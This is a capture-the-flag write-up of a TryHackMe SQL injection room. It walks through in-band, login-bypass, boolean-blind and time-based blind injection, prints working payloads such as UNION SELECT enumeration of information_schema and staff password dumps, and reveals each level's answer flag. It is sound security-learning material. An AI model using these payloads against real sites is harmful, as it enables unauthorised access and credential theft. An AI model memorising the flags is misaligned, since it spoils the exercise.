 ![Sql Injection Banner](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/sql_injection/Sql_Injection_Banner.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/sql_injection/SQLI_Cover.png" alt="SQL Injection Cover">
</p>

# [SQL Injection](https://github.com/Kevinovitz/TryHackMe_Writeups/tree/main/sql_injection)

## Table of Contents

- [In-Band SQLi](#in-band-sqli)
- [Blind SQLi - Authentication Bypass](#blind-sqli---authentication-bypass)
- [Blind SQLi - Boolean Based](#blind-sqli---boolean-based)
- [Blind SQLi - Time Based](#blind-sqli---time-based)

## In-Band SQLi

1. What is the flag after completing level 1?

   In this task we will retrieve a users password by using the information returned to us when exploiting the SQL queries.
   
   To start we add an `'` after the `id=1` statement in the browser to see if it is vulnerable to SQLi. Since we get an error, there is probably no proper filtering put in place. We can use the `UNION argument to get extra information. We first need to find the number of columns. Using the following command, adding numbers until we get no error message.
   
   ```cmd
   ' UNION SELECT 1,2,3;--
   ```
   
   No we can get more information on the database. To suppress the output of the article we can add `0'` in front of the query.
   
   ```cmd
   0' UNION SELECT 1,2,database();--
   ```
   
   This gives us the name of the database, which is `sqli_one`. Next we need to find the table names.
   
   ```cmd
   0' UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema='sqli_one';--
   ```
   
   This uses `information_schema` to display information about the database and its entries. Here we find the tables `article` and `staff_users`. The latter one is of more interest to us if we want to find someones credentials. Now we move on the find the folumn names in the `staff_users` table.
   
   ```cmd
   0' UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users';--
   ```
   
   This gives us three columns: `id`, `username`, and `password`. Now we can enumerate the conents of this table while using some formatting to make it readable.
   
   ```cmd
   0' UNION SELECT 1,2,group_concat(username, ':', password SEPARATOR '<br>') FROM staff_users;--
   
   ![SQLi In Band](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/sql_injection/SQLI_Inband_Found.png)

   ><details><summary>Click for answer</summary>THM{SQL_INJECTION_3840}</details>

## Blind SQLi - Authentication Bypass

1. What is the flag after completing level two? (and moving to level 3)

   In this task we are facing blind SQLi, where we don't get any feedback from our query. This is often the case when attempting to bypass login screesns. One of the most common/basic methods is to make sure the statement is always true. We can do this by escaping the query and writing a statement which is always true.
   
   ```cmd
   ' OR 1=1;--
   ```
   
   ![SQLi Authentication Bypass](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/sql_injection/SQLI_Authentication_Bypass_Found.png)

   ><details><summary>Click for answer</summary>THM{SQL_INJECTION_9581}</details>

## Blind SQLi - Boolean Based

1. What is the flag after completing level three?

   On level 3 we only get a true or false response to help us find the answer.
   
   We first need to find the number of columns using:
   
   ```cmd
   ' UNION SELECT 1,2,3;--
   ```
   
   Add as many columns as needed for the response to become true.
      
   To enumerate the database names, we can use the following method:
   
   ```cmd
   ' UNION SELECT 1,2,3 WHERE database() LIKE '%';--
   ```
   
   Try combinations before the `%` until we find a name. This time it is:
   
   ```cmd
   sqli_three
   ```
   
   To enumerate the table names within the database we use the following method:
   
   ```cmd
   ' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema="sqli_three" AND table_name LIKE '%';--
   ``
   
   Try combinations before the `%` until we find a name. This time it is:
   
   ```cmd
   users
   ```
   
   To enumerate the columns within this table we use the following method:
   
   ```cmd
   ' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_schema="sqli_three" AND table_name="users" AND column_name LIKE '%';--
   ```
   
   Try combinations before the `%` until we find a name. Then add it as 'column_name!=...' to make sure we don't get a hit on it again. This time we get:
   
   ```cmd
   'id', 'username', and 'password'
   ```
   
   Next we need to find any existing username. For this we use the same method as before:
   
   ```cmd
   ' UNION SELECT 1,2,3 FROM users WHERE username like '%';--
   ```
   
   After finding username `admin` we use the same method to find the corresponding password:
   
   ```cmd
   ' UNION SELECT 1,2,3 FROM users WHERE username='admin' AND password LIKE '%';--
   ```
   
   Going through all characters we find `3845`.

   ![SQLi Boolean](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/sql_injection/SQLI_Boolean_Based_Found.png)

   ><details><summary>Click for answer</summary>THM{SQL_INJECTION_1093}</details>

## Blind SQLi - Time Based

1. What is the final flag after completing level four?

   In this step, we get no feedback at all. The only way to get som information is to use the response time from the server. For this we add the `sleep()` command in the query to add a delay. This is executed if the query is true.
   
   The method is the same as the previous question. But we only get a different response time instead of a true or false statement. We start by enumerating the databases, then the tables and column names. Lastly, we enumerate for the username and password. In the end we get the following query.
   
   ```cmd
   admin123' UNION SELECT sleep(2),2 FROM users WHERE username='admin' AND password='4961';--
   ```
   
   ![SQLi Time Based](https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/sql_injection/SQLI_Time_Based_Found.png)

   ><details><summary>Click for answer</summary>THM{SQL_INJECTION_MASTER}</details>
